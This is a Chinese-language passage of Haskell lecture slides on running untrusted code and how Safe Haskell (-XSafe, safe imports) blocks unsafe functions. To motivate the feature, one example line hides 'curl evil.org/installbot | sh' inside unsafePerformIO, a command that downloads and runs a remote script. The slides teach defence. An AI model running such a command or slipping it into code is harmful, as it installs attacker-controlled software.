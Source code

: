 # 不受信任的代码

+   假设你想在 Haskell 应用程序中合并不受信任的代码。

+   例如：一些第三方翻译软件

    +   你建立了一个 Web 服务器。

    +   想要在每个网页上添加一个“翻译为猪拉丁语”的按钮

    +   使用此函数下载一些随机代码。

        ```
        toPigLatin :: L.ByteString -> L.ByteString
        ```

+   如果你能信任类型（没有`IO`），这将是安全的运行

    +   最坏的情况是，用户在网页上看到了乱码文本。

+   然而，如果你有？

    ```
    toPigLatin = unsafePerformIO $ do system "curl evil.org/installbot | sh" return "Ia owna ouya"
    ```

## [安全的 Haskell](http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html)

+   从 GHC 7.2 开始，`-XSafe`选项启用[���全的 Haskell](http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html)

    +   由我们自己的 CA，David Terei 提供

+   安全的 Haskell 禁止导入任何不安全的模块。

    +   例如，不能导入`System.IO.Unsafe`，因此不能调用`unsafePerformIO`。

+   安全导入（通过`-XUnsafe`启用）要求导入是安全的。

    ```
    import safe PigLatin (toPigLatin)
    ```

    +   上述应该保证`toPigLatin`不调用不安全的函数。

+   但等等… `toPigLatin`不是使用 ByteString 吗？

    ```
    head :: {- Lazy -} ByteString -> Word8 head Empty = errorEmptyList "head" head (Chunk c _) = S.unsafeHead c unsafeHead :: {- Strict -} ByteString -> Word8 unsafeHead (PS x s l) = assert (l > 0) $ inlinePerformIO $ withForeignPtr x $ \p -> peekByteOff p s
    ```

## 安全与可信赖

+   编译为`-XSafe`的模块只能导入安全模块。

